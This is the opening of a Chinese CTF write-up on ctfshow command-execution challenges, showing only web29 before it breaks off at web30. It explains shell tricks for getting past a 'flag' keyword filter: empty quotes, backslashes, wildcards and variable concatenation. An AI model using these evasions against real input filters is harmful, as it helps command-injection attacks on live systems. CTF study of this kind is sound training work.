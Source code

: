 ```yaml
---
title: "ctfshow Web入门[命令执行] web29-55 Writeup"
date: 2022-08-08T16:55:37+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


命令执行及绕过技巧



## web29

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061200800.png)

过滤了 flag

下面介绍一下 Linux 下几种绕过关键字过滤的方式

```bash
cat fl''ag.php
cat fl""ag.php
cat fl\ag.php
cat fla*
cat fla?.???
```

不仅仅是文件名, 执行的命令也可以这样绕过, 内容为空的单双引号在 shell 中会直接被忽略, 反斜杠表示命令输入没有结束, 会在下一行继续输入 (这里直接跟在反斜杠后面也算是继续输入), 通配符 `*` 表示匹配所有以 `fla` 开头的文件, 当然也就匹配了 `flag.php`, 而 `?` 表示匹配一个字符, `fla?.???` 匹配以 `fla` 开头的四个字符的文件名 + `.` + 三个字符的后缀名

另外拼接字符也能够绕过, 例如

```bash
a=fl;b=ag;cat $a$b.php # cat flag.php
```

这里由于是 eval 比较灵活, 使用 PHP 里的一些技巧例如文件包含+伪协议的操作也是可以绕过的

## web30
